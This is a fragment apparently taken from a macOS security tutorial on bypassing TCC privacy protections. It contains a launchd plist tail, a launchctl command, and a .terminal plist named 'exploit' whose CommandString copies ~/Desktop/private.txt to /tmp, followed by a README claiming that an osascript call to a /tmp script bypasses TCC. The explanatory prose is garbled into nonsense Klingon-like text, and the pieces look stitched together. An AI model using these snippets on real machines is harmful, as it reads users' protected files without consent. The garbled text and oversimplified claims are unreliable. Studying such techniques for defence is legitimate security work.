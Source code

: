 ```xml
<key>StandardOutPath</key>
<string>/tmp/telegram.log</string>
<key>StandardErrorPath</key>
<string>/tmp/telegram.log</string>
</dict>
</plist>
```

```bash
launchctl load com.telegram.launcher.plist
```
## By open invocations

**`open`** jatlhlaHchugh **`open`** vItlhutlh

### Terminal Scripts

**Full Disk Access (FDA)** jatlhlaHchugh terminal **ghItlh** laH. 'ach **`.terminal`** scripts **`CommandString`** key **ghItlh** **`CommandString`** **`open`** vItlhutlh.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
<key>CommandString</key>
<string>cp ~/Desktop/private.txt /tmp/;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
```
# README.md

## macOS TCC Bypasses

An application could write a terminal script in a location such as `/tmp` and launch it with a command such as:

```bash
osascript -e 'do shell script "/tmp/script.sh"'
```

This bypasses the macOS Transparency, Consent, and Control (TCC) framework, which is responsible for managing user privacy preferences and permissions.
